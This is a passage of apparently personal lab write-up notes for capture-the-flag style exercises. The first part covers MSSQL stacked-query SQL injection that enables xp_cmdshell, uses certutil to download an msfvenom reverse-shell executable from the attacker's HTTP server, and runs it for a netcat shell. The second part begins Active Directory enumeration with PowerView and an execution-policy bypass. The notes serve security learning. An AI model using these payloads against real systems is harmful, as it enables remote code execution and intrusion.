 ```
```
- A Microsoft SQL Server stored procedure, `xp_cmdshell`, is a specific command that allows for executing operating system calls. If we can exploit a stacked query to call a stored procedure, we might be able to run operating system calls and obtain remote code execution.
- so we have to enable `xp_cmdshell` to execute OS commands and gain RCE but we have to be `sysadmin` or have perms for `ALTER settings` 
- to enable it we stack the following queries :
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
- `http://10.10.245.198/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`
- now we generate a payload for `RCE` using `msfvenom` 
> `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe` 

- It's time to use our stacked query to call **xp_cmdshell** and execute the **certutil.exe** command on the target to download our payload.
> `'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.17.94.67:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --`

- back in our `python3 http server` on port `8000` , we get a `200` HTTP code and receive `reverse.exe` , so its downloaded on the server.
- now we open a netcat listener `nc -lvnp 4444` and then use final payload 
> `'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`

*NOTE - All these payloads are to be appended to gift parameter*

- Now we get reverse shell access and do `cd C:\Users\Administrator\Desktop` and we read the `note.txt` by doing `type note.txt` and get a flag and the note says to run `restore_website.bat` and obtain final flag on refresh of website
---
## Day 11 :

#### *Active Directory*

- *Windows Hello for Business (WHfB)* - modern and secure way to replace conventional password-based authentication, it utilizes cryptographic keys for user verification 
- users have a PIN or biometric and an additional pair of cryptographic keys, public and private.
   Those keys help to prove the identity of the entity to which they belong.
- The `msDS-KeyCredentialLink` is an attribute used by Domain Controller to store the public key in WHfB, in short each user object in AD database will have its public key stored in this unique attribute.
- now in the vulnerable machine go to `C:\Users\hr\Desktop` and enter command `powershell -ep bypass` in order to bypass the default policy for arbitrary powershell script execution.
- `. ./PowerView.ps1` - this command loads the powerview script into the memory, now we can enumerate all the privileges by running
> `Find-InterestingDomainAcl -ResolveGuids` - this will give info for all, but we need to filter out for user `hr` so we do :
> `Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights`
